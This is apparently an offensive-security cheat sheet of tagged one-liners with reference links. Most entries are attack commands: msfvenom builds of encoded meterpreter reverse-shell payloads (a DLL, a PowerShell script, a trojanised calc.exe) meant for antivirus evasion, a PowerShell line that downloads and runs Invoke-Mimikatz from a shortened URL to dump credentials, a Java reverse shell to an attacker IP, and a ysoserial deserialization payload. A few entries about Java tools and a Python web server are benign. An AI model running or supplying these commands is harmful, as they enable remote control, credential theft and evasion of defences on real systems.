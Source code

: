 ### 1. MSF Venom make dll
```
./msfvenom -p windows/meterpreter/reverse_https -f dll -e x86/shikata_ga_nai -i 30 LHOST=[IP] LPORT=443 > /data/Clients/[FILE]
```
**- metasploit,av evasion**
#### References:

https://www.offensive-security.com/metasploit-unleashed/msfvenom/
__________
### 2. Invoke mimicatz, can use with psexec for pwnage
```
powershell "IEX (New-Object Net.WebClient).DownloadString('http://bit.ly/1qMn59d'); Invoke-Mimikatz -DumpCreds"
```
**- passwords,Windows,av evasion,powershell**
#### References:

http://carnal0wnage.attackresearch.com/2013/10/dumping-domains-worth-of-passwords-with.html
https://github.com/clymb3r/PowerShell/tree/master/Invoke-Mimikatz
__________
### 3. instant web server
```
python -m SimpleHTTPServer [PORT]
```
**- pivoting,interesting,python,av evasion**
#### References:

https://docs.python.org/2/library/simplehttpserver.html
__________
### 4. Java reverse shell - replace ; with newline
```
r = Runtime.getRuntime(); p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]); p.waitFor()
```
**- linux,reverse shells,java**
#### References:

https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 5. powershell shell
```
msfvenom -p Windows/meterpreter/reverse_https -f psh -a x86 LHOST=[lhost] LPORT=[lport] audit.ps1
```
**- metasploit,av evasion,powershell**
#### References:

https://www.offensive-security.com/metasploit-unleashed/msfvenom/
__________
### 6. create a evil calc
```
msfvenom --payload windows/meterpreter/reverse_tcp --format exe --template calc.exe -k --encoder x86/shikata_ga_ni -i 5 LHOST=[lhost] LPORT=[lport] evil.exe
```
**- metasploit,av evasion**
#### References:

https://www.offensive-security.com/metasploit-unleashed/msfvenom/
__________
### 7. run a java web start JNLP
```
/opt/jre1.8.0_91/bin/javaws [something].jnlp
```
**- java**
#### References:

https://www.java.com/en/download/faq/java_webstart.xml
__________
### 8. Open java control pannel
```
/opt/jre1.8.0_91/bin/jcontrol
```
**- java**
#### References:

http://linuxsysconfig.com/2013/12/how-to-enable-java-console-on-rpm-based-linux-systems/
__________
### 9. YsoSerial code execution 
```
java -jar ysoserial-0.0.2-all.jar CommonsCollections1 '[command]' > payload.out
```
**- web application,java**
#### References:

https://github.com/frohoff/ysoserial
http://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/
__________
